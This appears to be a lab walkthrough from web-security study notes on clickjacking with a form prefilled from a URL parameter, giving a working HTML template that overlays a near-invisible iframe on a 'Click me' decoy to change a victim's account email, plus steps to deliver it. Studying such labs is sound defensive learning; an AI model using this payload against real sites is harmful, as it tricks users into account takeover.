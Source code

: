 Other websites might require:
- text before form submission. 
- As GET values form part of the URL then the target URL:
	- can be modified to incorporate values of the attacker's choosing 
	- and the transparent "submit" button is overlaid on the decoy site as in the basic clickjacking example

### Clickjacking with form input data prefilled from a URL parameter
1. Log in to the account on the target website.
2. Go to the exploit server and paste the following HTML template into the "Body" section:
```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
1. Make the following adjustments to the template:
    - Replace `YOUR-LAB-ID` with your unique lab ID so that the URL points to the target website's user account page, which contains the "Update email" form.
    - Substitute suitable pixel values for the `$height_value` and `$width_value` variables of the iframe (we suggest 700px and 500px respectively).
    - Substitute suitable pixel values for the `$top_value` and `$side_value` variables of the decoy web content so that the "Update email" button and the "Test me" decoy action align (we suggest 400px and 80px respectively).
    - Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
2. Click **Store** and then **View exploit**.
3. Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. 
	1. If not, adjust the position of the div element by modifying the top and left properties of the style sheet.
4. Once you have the div element lined up correctly, change "Test me" to "Click me" and click **Store**.
5. Change the email address in your exploit so that it doesn't match your own.
6. Deliver the exploit to the victim to solve the lab.
